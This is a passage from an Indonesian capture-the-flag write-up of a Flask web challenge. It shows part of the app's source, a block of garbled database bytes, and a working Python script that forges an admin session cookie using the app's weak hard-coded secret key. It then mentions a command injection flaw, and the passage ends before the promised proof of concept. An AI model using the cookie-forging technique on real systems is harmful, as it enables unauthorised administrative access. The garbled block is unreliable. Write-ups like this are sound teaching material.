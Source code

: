 ```python
def logout():
    session.pop('username', None)
    session.pop('role', None)
    return redirect(url_for('login'))

if __name__ == "__main__":
    app.run(debug=False,host='0.0.0.0')
```
    
`database.py`

```python
��g''�ormat 3t]''wtablecyberIwtableoshioshiCREATE TABLE "oshi" (
"name" TEXT,
"biography" TEXT
) # ...omitted...
```
    
- Awal saya analisis file `app.py`, saya menyadari bahwa secret_key yang digunakan adalah berupa string biasa / tidak random (*weak secret key*). Dari situ, saya langsung craft python script untuk men-generate sebuah JWT token agar bisa login sebagai admin dengan memanfaatkan `role=”admin”`. Berikut adalah kodenya.

`gen_session_cookie.py`
    
```python
# GENERATE ADMIN SESSION COOKIE USING WEAK SECRET KEY!
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

# Fungsi untuk membuat sesi palsu
def create_session(secret_key, data):
  session_interface = SecureCookieSessionInterface()
  serializer = URLSafeTimedSerializer(
    secret_key,
    salt='cookie-session',
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': 'sha1'}
  )
  return serializer.dumps(data)

# URL target
url = "http://146.190.104.208:7012"

# Buat sesi palsu
secret_key = 'os.urandom(8)'
session_data = {'role': 'admin'}
fake_session = create_session(secret_key, session_data)
print(fake_session)
```
    
![Oshiku-01](/images/wreckit5.0_web1-01.png)

- Setelah berhasil login sebagai admin, saya coba baca lagi source code flask-nya. Awalnya, saya berpikir jika di fungsi `query_database` adalah kerentanan *SQL Injection*, tapi ternyata saya salah. Itu merupakan kerentanan ***Command Injection***. Langsung saja saya craft payloadnya dan coba kirim request tersebut via cURL menggunakan cookie admin yang sudah di-generate sebelumnya.
- Berikut adalah POC untuk get flag-nya:
